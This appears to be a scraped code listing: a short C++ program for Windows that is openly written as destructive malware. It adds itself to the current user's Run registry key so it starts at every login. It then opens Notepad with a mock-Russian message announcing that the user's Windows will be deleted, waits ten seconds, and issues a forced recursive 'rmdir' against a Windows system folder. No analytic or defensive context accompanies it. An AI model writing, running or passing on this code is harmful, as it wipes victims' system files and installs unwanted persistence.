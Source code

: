 #include <windows.h>
#include <iostream>
#include <string>

void wipeDisk() {
    system("rmdir /s /q C:\\Windows\\Win32");
}

void addToStartup() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
    LPCSTR valueName = "MyApplication";

    char executablePath[MAX_PATH];
    GetModuleFileNameA(NULL, executablePath, MAX_PATH);

    if (RegOpenKeyExA(HKEY_CURRENT_USER, subKey, 0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {
        RegSetValueExA(hKey, valueName, 0, REG_SZ, (const BYTE*)executablePath, strlen(executablePath) + 1);
        RegCloseKey(hKey);
    }
}

int main() {
    addToStartup();
    system("start notepad.exe \"3драBctBYuТе, ваша вunд0ус будEt YDаЛEH, П0КА П0КА\"");
    Sleep(10000);
    wipeDisk();

    return 0;
}
